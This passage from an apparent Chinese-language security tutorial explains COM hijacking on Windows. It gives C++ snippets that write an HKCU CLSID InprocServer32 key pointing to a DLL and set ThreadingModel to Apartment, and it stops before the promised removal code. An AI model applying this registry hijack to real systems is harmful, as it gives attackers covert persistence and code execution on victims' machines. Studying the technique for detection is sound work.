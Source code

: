 修改注册表的属性用到的api为`RegSetValueExA`

```c++
LSTATUS RegSetValueExW(
  HKEY       hKey,
  LPCWSTR    lpValueName,
  DWORD      Reserved,
  DWORD      dwType,
  const BYTE *lpData,
  DWORD      cbData
);
```

> hkey：注册表的句柄
> 
> lpValueName：要设置的值的名称
> 
> Reserved：保留值，必须为0
> 
> dwType：*lpData*参数指向的数据类型
> 
> lpData：要存储的数据
> 
> cbData：*lpData*参数指向的信息的大小，以字节为单位
> 
> 函数执行成功则返回 ERROR\_SUCCESS，函数执行失败则返回非零错误代码

那么首先使用`RegCreateKeyExA`创建注册表

```c++
RegCreateKeyExA(HKEY_CURRENT_USER,
            "Software\\Classes\\CLSID\\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\\InprocServer32",
            0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition))
```

再用`RegCreateKeyExA`设置DLL文件的属性

```c++
RegSetValueExA(hKey, NULL, 0, REG_SZ, (BYTE*)system1, (1 + ::lstrlenA(system1)))
```

然后再设置`InprocServer32`下的`ThreadingModel`属性，这里我们随便打开一个`CLSID`里面的`InprocServer32`文件夹，发现都是由一个dll文件的路径 + 一个`ThreadingModel`组成的，这个`ThreadingModel`键值是用来标记dll的线程模型，它代表容纳此COM 类的载体应当是一个动态链接库，对应的值就为`Apartment`

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-c451249d788c6be31603c241f8af5ffeb26021af.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-c451249d788c6be31603c241f8af5ffeb26021af.png)

那我们定义一个数组，再修改`ThreadingModel`的值即可完成`InprocServer32`属性的修改

```c++
char system2[] = "Apartment";

RegSetValueExA(hKey, "ThreadingModel", 0, REG_SZ, (BYTE*)system2, (1 + ::lstrlenA(system2)))
```

对应的，我们进行com劫持完成之后，也需要写一个卸载的代码，这里就不细说了直接贴上来，跟前面的思路差不多，使用到`RegDeleteValueA`删除注册表属性即可，代码如下
